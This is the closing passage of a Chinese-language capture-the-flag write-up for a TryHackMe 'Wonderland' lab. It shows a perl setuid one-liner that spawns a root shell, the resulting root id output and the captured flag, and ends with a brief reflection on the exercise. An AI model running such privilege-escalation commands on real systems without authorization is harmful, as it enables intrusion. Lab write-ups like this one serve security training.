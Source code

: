 ```

# 用ssh登录hatter账号拿到hatter的full shell，根据之前linpease枚举的结果利用perl提升到root权限（参考https://gtfobins.github.io/gtfobins/perl/）
```
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
#  id
uid=0(root) gid=1003(hatter) groups=1003(hatter)
#  cat /home/alice/root.txt
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
```

# 总结
非常精彩的靶机，走了不少弯路，学习了通过引用文件进行提权的方法。